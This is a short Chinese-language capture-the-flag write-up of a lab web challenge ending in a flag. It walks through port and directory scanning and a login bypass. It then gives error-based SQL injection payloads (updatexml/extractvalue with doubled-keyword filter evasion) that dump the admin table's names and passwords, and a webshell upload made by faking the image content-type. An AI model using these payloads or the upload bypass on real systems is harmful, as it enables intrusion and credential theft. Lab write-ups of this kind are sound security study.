










1. 扫描端口，发现一网站

2. 目录扫描，发现后台登录

3. 进行万能密码登录，发现sql报错

4. 尝试进行报错注入

   ```mysql
   #数据库
   admin%27+or+updatexml(1,concat(0x7e,database(),0x7e),1)%23
   
   #表
   admin%27+or+updatexml(1,concat(0x7e,(seselectlect+group_concat(table_name)+fr+from+om+information_schema.tables%0awhere%0atable_schema+i+in+n+(database())),0x7e),1)%23
   
   #表
   admin%27+or+updatexml(1,concat(0x7e,(seselectlect+group_concat(column_name)+fr+from+om+information_schema.columns%0awhere%0atable_schema+i+in+n+(database())+and+table_name+i+in+n(%27bees_admin%27)),0x7e),1)%23
   
   #表里字段
   admin%27+or+updatexml(1,concat(0x7e,(seselectlect+group_concat(column_name)+fr+from+om+information_schema.columns%0awhere%0atable_schema+i+in+n+(database())+a+and+nd+table_name+i+in+n(%27bees_admin%27)),0x7e),1)%23
   
   #管理员用户账号密码
   admin%27+or+extractvalue(1,concat(0x7e,(seselectlect+gr+group+oup_concat(admin_name,admin_password)+fr+from+om+bees_admin),0x7e)) %23
   
   
   ```











5. 后台上传图片处，上传shell

   ```
   经过测试，content-type修改为img/gif即可上传
   ```

   

   

6. 成功上传shell

   
   
   



```
meetsec1{476e2dceb225678cd466fc3cd2b4c59c}
```

